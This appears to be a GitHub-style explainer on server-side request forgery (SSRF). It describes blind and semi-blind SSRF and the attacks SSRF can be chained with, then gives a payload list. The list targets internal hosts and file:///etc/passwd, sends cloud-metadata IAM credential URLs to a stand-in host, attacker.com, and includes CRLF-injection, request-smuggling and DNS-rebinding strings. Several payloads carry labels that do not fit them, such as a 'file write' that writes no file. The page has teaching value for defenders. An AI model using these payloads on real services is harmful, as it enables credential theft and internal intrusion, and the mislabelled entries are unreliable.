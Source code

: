 `Blind`: Blind SSRF is a type of SSRF where the attacker cannot directly see the response from the request, but can still exploit the vulnerability by using side-channel attacks or other techniques.

`Semi-blind`: Semi-blind SSRF is similar to blind SSRF, but the attacker can partially see the response from the request, for example by detecting differences in response times.

## SSRF combined with other attacks

SSRF can be combined with multiple attacks to further exploit a vulnerable web application:

**Information disclosure**: An attacker can use SSRF to access sensitive information, such as files or credentials, stored on internal servers.

**Remote Code Execution (RCE)**: An attacker can use SSRF to execute arbitrary code on internal servers, which can lead to a full compromise of the application and its underlying infrastructure.

**DDoS attacks**: An attacker can use SSRF to launch DDoS attacks on internal servers by flooding them with requests.

**DNS rebinding**: An attacker can use SSRF to bypass Same Origin Policy (SOP) restrictions by manipulating DNS responses to redirect requests to a malicious server.

**[ ! ]** *These are just a few examples of attacks that can be combined with SSRF. It is important to understand the potential impact of SSRF and take appropriate measures to prevent it.*

## Payload Examples:

**[ ! ]** *These are just examples, to give an idea of how an SSRF payload might look like.*

Basic Payload:<br>  **`http://localhost:22`**

IP Address Payload:<br>  **`http://192.168.0.1:22`**

DNS Lookup Payload:<br>  **`http://attacker.com`**

Port Scan Payload:<br>  **`http://attacker.com:22`**

File Read Payload:<br>  **`file:///etc/passwd`**

File Write Payload:<br>  **`dict://127.0.0.1:22/test.txt`**

Server-Side Request Forgery (SSRF) using XSPA:<br>  **`http://127.0.0.1/admin.php`**

Server-Side Request Forgery (SSRF) using Error Messages:<br>  **`http://127.0.0.1/admin.php?invalidparam=1`**

Server-Side Request Forgery (SSRF) using CRLF injection:<br> **`http://127.0.0.1/admin.php?nexturl=%0D%0ASet-Cookie:%20test=test`**

Blind SSRF using Out-of-Band (OOB) techniques:<br>  **`http://attacker.com/collect?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/admin`**

Blind SSRF using Request Smuggling:<br>  **`GET http://attacker.com HTTP/1.1\nHost: vulnerable.com\nTransfer-Encoding: chunked\n\n0\nGET /admin HTTP/1.1\nHost: 127.0.0.1\n\n`**

Blind SSRF using HTTP Parameter Pollution (HPP):<br>  **`http://<Target>/page?id=1&id=2&url=http://169.254.169.254/latest/meta-data/iam/security-credentials/admin`**

Blind SSRF using DNS Rebinding:<br>  **`http://attacker.com/?ip=127.0.0.1`**
